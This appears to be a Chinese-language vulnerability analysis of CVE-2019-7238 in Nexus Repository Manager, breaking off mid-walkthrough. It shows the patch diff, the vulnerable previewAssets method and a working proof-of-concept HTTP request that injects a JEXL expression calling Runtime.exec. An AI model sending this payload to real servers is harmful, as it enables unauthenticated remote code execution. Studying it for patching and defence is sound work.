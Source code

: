 ### CVE-2019-7238
利用前提：maven-releases下有项目（或者自己上传一个jar包）
Diff: 3.15.0+版本`ComponentComponent`类增加了权限校验
```
+ @RequiresPermissions('nexus:selectors:*')
PagedResponse<AssetXO> previewAssets(final StoreLoadParameters parameters) {...}
```

POC: 
```
POST /service/extdirect HTTP/1.1
Content-Type: application/json


{"action":"coreui_Component","method":"previewAssets","data":[{"page":1,"start":0,"limit":50,"sort":[{"property":"name","direction":"ASC"}],"filter":
[{"property":"repositoryName","value":"*"},{"property":"expression","value":"233.class.forName('java.lang.Runtime').getRuntime().exec('open -a Calculator')"},{"property":"type","value":"jexl"}]}],"type":"rpc","tid":26}
```

漏洞定位在`ComponentComponent.previewAssets()`方法。根据路由分析中的内容，想要触发此方法，传入的JSON内容框架如下
```
{
    "action":"coreui_Component",
    "method":"previewAssets",
    "data":[],
    "type":rpc,
    "tid":数字
}
```
那么现在就需要分析`previewAssets()`方法需要传入怎样的参数从而造成危害
```java
  @DirectMethod
  @Timed
  @ExceptionMetered
  PagedResponse<AssetXO> previewAssets(final StoreLoadParameters parameters) {
    // （1）从filter中获取三个参数
    String repositoryName = parameters.getFilter('repositoryName')
    String expression = parameters.getFilter('expression')
    String type = parameters.getFilter('type')
    if (!expression || !type || !repositoryName) {
      return null
    }

    // （2）创建表达式
    RepositorySelector repositorySelector = RepositorySelector.fromSelector(repositoryName)
    if (type == JexlSelector.TYPE) {
      jexlExpressionValidator.validate(expression)
    }
    else if (type == CselSelector.TYPE) {
      cselExpressionValidator.validate(expression);
    }
    List<Repository> selectedRepositories = getPreviewRepositories(repositorySelector)
    if (!selectedRepositories.size()) {
      return null
    }

    
    // （3）
    def result = browseService.previewAssets(
        repositorySelector,
        selectedRepositories,
        expression,
        toQueryOptions(parameters))
```